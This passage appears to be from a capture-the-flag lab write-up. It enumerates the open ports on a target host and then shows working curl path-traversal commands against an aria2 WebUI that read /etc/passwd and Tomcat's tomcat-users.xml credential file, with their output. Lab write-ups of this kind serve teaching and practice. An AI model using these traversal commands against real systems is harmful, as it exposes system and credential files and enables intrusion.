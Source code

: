 ### **Open Ports**

| Ports | Services | Version                   |
| ----- | -------- | ------------------------- |
| 22    | SSH      | OpenSSH 8.2               |
| 6800  | http     | aria2 downloader JSON-RPC |
| 8080  | http     | Apache Tomcat 8.5.93      |
| 8888  | http     | ?                         |

1. port 8080
![Desktop View](/apache-tomcat.webp){: width="1200" height="450" }
2. port 8888

![Desktop View](/port-8888.webp){: width="1200" height="450" }

site navigation:

![Desktop View](/port-8888-version.webp){: width="1200" height="450" }

## **Research** 
After conducting extensive research on various services, we identified a vulnerability in the Aria WebUI. For more details, please refer to this blog. [aria2-webui-path-travesral](https://pentest-tools.com/vulnerabilities-exploits/aria2-webui-path-traversal_22480)

```console
$ curl --path-as-is 'http://10.10.114.233:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```
>You likely have experience working with Apache Tomcat. 
{: .prompt-tip}
>Tomcat File Structure [check](https://stmxcsr.com/micro/tomcat_tree.html)
{: .prompt-info}

```console
$ curl --path-as-is http://10.10.114.233:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[***************]" roles="manager-script"/>

</tomcat-users>
```
